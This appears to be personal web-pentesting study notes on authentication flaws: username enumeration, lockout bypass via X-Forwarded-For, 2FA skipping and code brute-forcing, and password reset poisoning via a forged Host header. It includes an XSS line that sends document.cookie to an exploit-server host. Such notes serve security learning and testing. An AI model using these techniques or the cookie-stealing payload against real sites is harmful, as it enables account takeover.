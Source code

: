 # Authentication Vulns 

## Introduction 
Authentication vulnerabilities can allow attackers to gain access to sensitive data and functionality

## Where to find ? 
- everywhere 
## How to exploit

### Username enumeration and brute-force
- submit several bad login attempts for an account u control 
- After 10 failed login attempts, if the application does not return a message about account lockout, attempt to log in correctly. If it works, then there is no lockout mechanism.
	- run brute force attack
		- submit a request with a valid username and valid password.
		- submit a request with a valid username and invalid password.
		- submit a request with an invalid username
		- check for diff between responses (u can use comparer in burp)
			- status code
			- any redirects 
				- 302 when password is correct
			- info displayed on screen 
				- wrong password when username is correct
			- HTML page source
			- time to process the request
				- ![[Pasted image 20230908165356.png]]
				- if the username is correct => long time process 
- if the account is locked, try to bypass the lock mechanism 
	- `X-Forwarded-For: randomIp` => change the ip where the requests is sent from
	- if the lock happens after 4 fails attempts e.g, try to do a successful login in the 4th request, then do 3 brute force requests, etc .. 
- sometimes u will only get locked if the user u trying to bruteforce his password exists, hence, u can enumerate usernames
	- once u got the right username, brute force his password
### 2FA Vulns
- login with an account u have a control on, enter the 2FA code, check the home page path
- if u enter the victim's user and password, then a 2FA code is required, try to just go to the home page without entering the 2FA code, because the website may not check whether u enterd the 2FA code or not
- in the below case, if there is a cookie used to determine which account will be logged into, u can brute force the victim 2FA code if there is no brute force protection mechanism
```
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=victim-user
...
verification-code=123456
```
### Keeping users logged in Auth
- ![[Pasted image 20230908201343.png]]
	- crack the MD5 hash, make use of payload processing in burp
- it's possible to obtain the victim's cookie via xss vuln
```js
<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
```


### Resetting passwords using a URL -  Password reset poisoning
- u can specify which user u will reset his password because the token is not validated based on specific user
	- ![[Pasted image 20230908210731.png]]
	- change the username to the victim username
	- This token should expire after a short period of time and be destroyed immediately after the password has been reset.
- If the URL that is sent to the user is dynamically generated based on controllable input, such as the Host header, it may be possible to construct a password reset poisoning attack
	- The attacker obtains the victim's email address or username, as required, and submits a password reset request on their behalf. When submitting the form, they intercept the resulting HTTP request and modify the** Host header or X-Forwarded-Host** so that it points to a domain that they control. For this example, we'll use `evil-user.net`.
	- The victim receives a genuine password reset email directly from the website`https://evil-user.net/reset?token=0a1b2c3d4e5f6g7h8i9j`
	- when he click the link, u will receive the token
	- supply the victim token and change his password :)
### Password Change Functionality
- submit a valid current password and new and confirm, (valid request)
- submit a valid current password, but unmatched new and confirm  pass's
- submit an invalid current password, but matched new and confirm pass's
- submit an invalid current password, but unmatched new and confirm pass's
### Vulnerable Transmission of Credentials
- if HTTP only ? 
	- use wireshark as POC to sniff the data being submitted
### Insecure Forgot Password Functionality
- perform a complete walk-through of the forgot password functionality using an account you have control of while intercepting the requests / responses in a proxy.
- Review the functionality to determine if it allows for username enumeration or brute- force attacks
- If the application generates an email containing a recovery URL, obtain a number of these URLs and attempt to identify any predictable patterns or sensitive information included in the URL. Also check if the URL is long lived and does not expire.
### Defects in Multistage Login Mechanism
- perform a complete walk-through using an account you have control of while intercepting the requests / responses in a proxy.
- Review the functionality to determine if it allows for username enumeration or brute- force attacks.
- ![[Pasted image 20230908161102.png]]
